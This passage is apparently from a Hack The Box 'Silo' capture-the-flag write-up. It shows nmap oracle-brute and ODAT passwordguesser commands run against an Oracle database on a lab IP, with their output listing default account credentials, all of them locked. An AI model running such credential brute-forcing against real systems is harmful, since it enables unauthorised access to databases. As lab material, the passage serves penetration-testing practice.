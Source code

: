       |_  Statistics: Performed 695 guesses in 15 seconds, average tps: 46.3

    Nothing.. lets download the user- and password-list from HackTricks and run the script again.

    [root:/git/htb/silo]# nmap --script=oracle-brute --script-args=oracle-brute.sid=XE,userdb=/git/htb/silo/users-oracle.txt,passdb=/git/htb/silo/pass-oracle.txt 10.10.10.82 -p 1521
      Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-03 16:58 CET
      PORT     STATE SERVICE
      1521/tcp open  oracle
      | oracle-brute:
      |   Accounts:
      |     ctxsys:ctxsys - Account is locked
      |     outln:outln - Account is locked
      |     OUTLN:outln - Account is locked
      |     MDSYS:mdsys - Account is locked
      |     xdb:xdb - Account is locked
      |     system:06071992 - Account is locked
      |     XDB:xdb - Account is locked
      |     SYSTEM:06071992 - Account is locked
      |     SCOTT:0racl3 - Account is locked
      |     mdsys:mdsys - Account is locked
      |     hr:hr - Account is locked
      |     DBSNMP:dbsnmp - Account is locked
      |     CTXSYS:ctxsys - Account is locked
      |     HR:hr - Account is locked
      |     dbsnmp:dbsnmp - Account is locked
      |     DIP:dip - Account is locked
      |     dip:dip - Account is locked
      |     scott:0RACL3 - Account is locked
      |_  Statistics: Performed 110942 guesses in 900 seconds, average tps: 99.0

    No luck there either.. continue to read on about pentesting Oracle Databases and come across the software Odat, lets try it.

    [root:/opt/odat]# python3 odat.py passwordguesser -s 10.10.10.82 -p 1521 -d XE                                                           (master✱)
      [1] (10.10.10.82:1521): Searching valid accounts on the 10.10.10.82 server, port 1521
      100% |######################################################################################################################| Time: 00:11:14
      [-] No found a valid account on 10.10.10.82:1521/XE. You should try with the option '--accounts-file accounts/accounts_multiple.txt' or '--accounts-files accounts/logins.txt accounts/pwds.txt'
